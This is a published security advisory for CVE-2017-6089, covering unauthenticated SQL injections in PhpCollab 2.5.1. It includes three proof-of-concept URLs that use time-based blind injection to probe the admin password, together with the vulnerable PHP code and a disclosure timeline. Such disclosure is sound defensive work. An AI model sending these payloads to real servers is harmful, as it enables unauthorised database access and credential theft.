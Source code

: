 # [CVE-2017-6089] PhpCollab 2.5.1 Multiple SQL Injections (unauthenticated)

## Description

PhpCollab is an open source web-based project management system, that enables collaboration across the Internet.

## SQL injections

The phpCollab code does not correctly filter arguments, allowing arbitrary SQL code execution by an unauthenticated user.

**CVE ID**: CVE-2017-6089

**Access Vector**: remote

**Security Risk**: Critical

**Vulnerability**: CWE-89

**CVSS Base Score**: 10 (Critical)

**CVSS Vector String**: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:N/A:H

## Proof of Concept 1

The following HTTP request allows an attacker to extract data using SQL injections in either the `project` or `id` parameter  (it requires at least one topic):

```
http://phpCollab.lan/topics/deletetopics.php?project=1'+and+(SELECT+SLEEP(5)+FROM+members+where+login+like+0x61646d696e+and+substr(password,1,1)+like+CHAR(116))+and+'2'='2

http://phpCollab.lan/topics/deletetopics.php?project=1&id=1+and+(SELECT+SLEEP(5)+FROM+members+where+login+like+0x61646d696e+and+substr(password,1,1)+like+CHAR(116))
```

### Vulnerable code

The vulnerable code is found in `topics/deletetopics.php`, line 9.

```
if ($action == "delete") {
    $id = str_replace("**",",",$id);
    $tmpquery1 = "DELETE FROM ".$tableCollab["topics"]." WHERE id = $id";
    $tmpquery2 = "DELETE FROM ".$tableCollab["posts"]." WHERE topic = $id";
    $pieces = explode(",",$id);
    $num = count($pieces);
    connectSql("$tmpquery1");
    connectSql("$tmpquery2");
```


## Proof of Concept 2

The following HTTP request allows an attacker to extract data using SQL injections in the `id` parameter (it requires at least one saved bookmark):

```
http://phpCollab.lan/bookmarks/deletebookmarks.php?action=delete&id=select+sleep(5)+from+members+where+login+like+0x61646d696e+and+substr(password,1,1)+like+CHAR(116)
```

### Vulnerable code

The vulnerable code is found in `bookmarks/deletebookmarks.php`, line 32.

```
if ($action == "delete") {
	$id = str_replace("**",",",$id);
	$tmpquery1 = "DELETE FROM ".$tableCollab["bookmarks"]." WHERE id IN($id)";
	connectSql("$tmpquery1");
```


## Proof of Concept 3

The following HTTP request allows an attacker to extract some information using SQL injection in the `id` parameter (it requires at least one calendar entry):

```
http://phpCollab.lan/calendar/deletecalendar.php?project=&action=delete&id=select+sleep(5)+from+members+where+login+like+0x61646d696e+and+substr(password,1,1)+like+CHAR(116)
```

### Vulnerable code

The vulnerable code is found in `calendar/deletecalendar.php`, line 31.

```
if ($action == "delete") {
	$id = str_replace("**",",",$id);
	$tmpquery1 = "DELETE FROM ".$tableCollab["calendar"]." WHERE id IN($id)";
	connectSql("$tmpquery1");
```

**Notes**
The application probably needs a security posture against injections, so other parameters and pages may be vulnerables. This advisory does not intend to be an exhaustive list of vulnerable parameters.


## Solution

Update to the latest version avalaible.

## Affected versions

* Version <= 2.5.1

## Timeline (dd/mm/yyyy)

* 27/08/2016 : Initial discovery.
* 05/10/2016 : Initial contact.
* 11/10/2016 : GPG Key exchange.
* 19/10/2016 : Advisory sent to vendor.
* 13/02/2017 : First fixes.
* 15/02/2017 : Fixes validation by Sysdream.
* 21/02/2017 : PhpCollab ask to wait before publish.
* 21/06/2017 : New version has been released.
* 29/09/2017 : Public disclosure.

## Credits

* Nicolas SERRA, Sysdream  (n.serra -at- sysdream -dot- com)

-- 
SYSDREAM Labs <labs@sysdream.com> 
GPG : 47D1 E124 C43E F992 2A2E 1551 8EB4 8CD9 D5B2 59A1 
* Website: https://sysdream.com/ 
* Twitter: @sysdream